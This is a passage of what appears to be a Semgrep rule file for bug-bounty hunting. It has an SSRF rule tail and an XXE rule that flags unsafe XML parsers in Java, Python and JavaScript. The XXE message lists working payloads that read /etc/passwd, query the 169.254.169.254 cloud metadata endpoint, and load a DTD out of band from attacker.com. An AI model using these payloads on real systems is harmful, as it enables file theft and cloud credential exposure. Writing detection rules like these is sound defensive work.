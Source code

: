 ```yaml
      3. Chain with other vulns for maximum impact
      
      Real Bounty Examples:
      • Facebook SSRF by Bipin Jitiya: $31,500
      • Google Cloud SSRF: $31,000
      • Multiple $10K+ payouts via cloud metadata access
    
    languages: [python, java, javascript, typescript]
    severity: ERROR
    metadata:
      impact: "CRITICAL"
      bounty_tier: "high_value"
      exploitation_complexity: "low"

  # XXE with Advanced Payload Suggestions
  - id: xxe-vulnerability-comprehensive
    patterns:
      - pattern-either:
          # Java XML parsers
          - patterns:
              - pattern: $PARSER = DocumentBuilderFactory.newInstance()
              - pattern-not: $PARSER.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true)
              - pattern-not: $PARSER.setFeature("http://xml.org/sax/features/external-general-entities", false)
          
          # Python XML parsers  
          - patterns:
              - pattern-either:
                  - pattern: xml.etree.ElementTree.parse($FILE)
                  - pattern: xml.etree.ElementTree.fromstring($DATA)
                  - pattern: xml.dom.minidom.parse($FILE)
                  - pattern: lxml.etree.parse($FILE)
          
          # JavaScript/Node.js XML parsers
          - patterns:
              - pattern-either:
                  - pattern: new DOMParser().parseFromString($XML, ...)
                  - pattern: libxmljs.parseXml($XML)
                  - pattern: xml2js.parseString($XML, ...)
    
    message: |
      🚨 XXE (XML External Entity) Vulnerability Detected
      
      💰 Typical Bounty: $1,000 - $10,000
      🎯 Attack Vectors: File disclosure, SSRF, potential RCE
      
      🔥 EXPLOITATION PAYLOADS:
      
      File Disclosure:
      <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
      
      SSRF Chain:
      <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">]>
      
      Blind XXE (Out-of-band):
      <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd"> %xxe;]>
      
      🛡️ Fix: Disable external entity processing in XML parser configuration
    
    languages: [java, python, javascript, typescript]
    severity: ERROR
    metadata:
```